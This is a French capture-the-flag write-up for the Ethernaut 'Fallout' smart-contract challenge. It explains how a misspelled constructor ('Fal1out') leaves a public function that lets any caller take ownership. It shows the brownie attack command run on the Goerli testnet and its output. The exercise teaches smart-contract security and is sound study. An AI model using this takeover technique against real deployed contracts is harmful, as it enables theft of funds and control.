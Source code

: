 # Fallout

## Objectif
L'objectif de ce challenge est de devenir le owner du contrat.


## Devenir owner
A la lecture du contrat, la seule possibilité de devenir `owner` est à la [ligne 13](contracts/fallout.sol#L13)

Contrairement à d'autres langages orienté objet, le constructeur d'un contrat est une méthode utilisant le mot clé `constructor`.
Pour éviter des erreurs, le langage ne permet qu'une méthode ait le même nom que le contrat.

Ici le code soure compile car la fonction est nommée `Fal1out` et non `Fallout`.

La méthode `Fal1out` est `public`, il est donc possible de l'appeller pour devenir `owner` du contrat.


## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `goerli`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x40F5513a90fb7e2ac2C3E12A6d16B9279D1e94Ed) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run attack main "0x777d82B8421F781F3bd32534DD59EFC0202F5d42" --network goerli
```
```console
Brownie v1.19.0 - Python development framework for Ethereum

FalloutProject is the active project.

Running 'scripts/attack.py::main'...
Owner is hacker: False
Transaction sent: 0x6c9a6b64daa5adc6d31343f57a5d0998f170e6ab39ba10ac629307dd3e89a8a0
  Gas price: 168.3185829 gwei   Gas limit: 50267   Nonce: 20
  Transaction confirmed   Block: 7837988   Gas used: 45606 (90.73%)

Owner is hacker: True
```

